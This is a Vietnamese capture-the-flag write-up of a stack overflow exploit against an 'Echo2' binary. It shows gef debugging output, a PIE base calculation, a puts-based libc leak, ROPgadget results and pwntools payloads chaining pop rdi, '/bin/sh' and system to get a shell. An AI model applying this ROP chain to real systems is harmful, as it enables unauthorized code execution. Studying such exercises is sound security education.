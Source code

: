 ```java
```
Ta sẽ tính toán offset ở địa chỉ này để lấy được exe_base 
```java
gef➤  p/d 0x000055783bbdc24c - 0x000055783bbdb000
$1 = 4684
```
Giờ chỉ còn thiếu địa chỉ của libc nữa là có thể tiến hành tạo shell được rồi. Sau ret 8 byte có 1 địa chỉ nằm trong libc, mình định leak nó ra bằng pad thêm 8byte để nó overwrite null byte nhưng không được (lmao). 
```java
gef➤
...
0x00007fffd3694310│+0x0110: 0x4141414141414141   ← $rbp
0x00007fffd3694318│+0x0118: 0x0000555f680c824c  →  <main+5> mov rbp, rsp
0x00007fffd3694320│+0x0120: 0x4141414141414141
0x00007fffd3694328│+0x0128: 0x00007f1f06ea7d90  →   mov edi, eax
0x00007fffd3694330│+0x0130: 0x0000000000000000
0x00007fffd3694338│+0x0138: 0x0000555f680c8247  →  <main+0> endbr64
```
```java
[DEBUG] Received 0x127 bytes:
    00000000  45 63 68 6f  32 3a 20 0a  41 41 41 41  41 41 41 41  │Echo│2: ·│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000120  4c 02 04 9b  8b 55 0a                               │L···│·U·│
    00000127
Echo2:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAL\x04\x8bU
```
Ngó lại thì thấy trước khi leave trong thanh ghi rdi có chứa một địa chỉ trong libc vậy nên mình nghĩ có thể leak nó ra thông qua printf hoặc puts. Mình sẽ dùng puts. Overwrite địa chỉ của puts ở echo retAddr và push ngay sau đó là địa chỉ của main để sau khi puts leak thành công địa chỉ trong rdi sẽ nhảy vào main và tiếp tục thực hiện chương trình. 

```java
payload2 = b'A'*279
payload2 += p64(exe.plt['puts'])
payload2 += p64(exe.sym['main']+5)

r.sendlineafter(b'Echo2\n',b'296')
r.send(payload2)
```
Giờ là công đoạn tạo shell. Sử dụng ROPgadget để tìm các gadget
```java
0x000000000002a745 : pop rdi ; pop rbp ; ret
0x000000000002a3e5 : pop rdi ; ret
0x00000000001bc10d : pop rdi ; ret 0xffe6
```
payload mình gửi sẽ như thế này
```python
rdi = libc.address + 0x2a3e5
bin_sh = next(libc.search(b"/bin/sh"))
libc_ret = libc.address + 0x29cd6
payload3 = b'C'*279
payload3 += p64(rdi)
payload3 += p64(bin_sh)
payload3 += p64(libc.sym['system'])
  ```
Đến đây mình bị lỗi xmm1 nên sẽ tìm ret gadget nào đó trong libc để nhảy vào
```java
...
0x0000000000029cd6 : ret
...
```